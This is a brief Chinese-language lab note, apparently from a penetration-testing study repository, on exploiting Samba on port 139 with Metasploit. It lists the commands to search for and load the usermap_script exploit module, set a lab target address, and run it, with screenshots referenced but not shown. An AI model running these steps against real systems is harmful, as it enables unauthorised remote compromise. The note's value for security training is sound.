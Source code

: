 # 139_Samba

使用msf

搜索模块脚本

> search samba/usermap_script

![image-20210319160427240](../../image/meteaspolitale2/image-20210319160427240.png)

选择模块脚本

> use exploit/multi/samba/usermap_script

设置目标靶机

> set RHOSTS 10.10.10.6

执行

> exploit

![image-20210319160545403](../../image/meteaspolitale2/image-20210319160545403.png)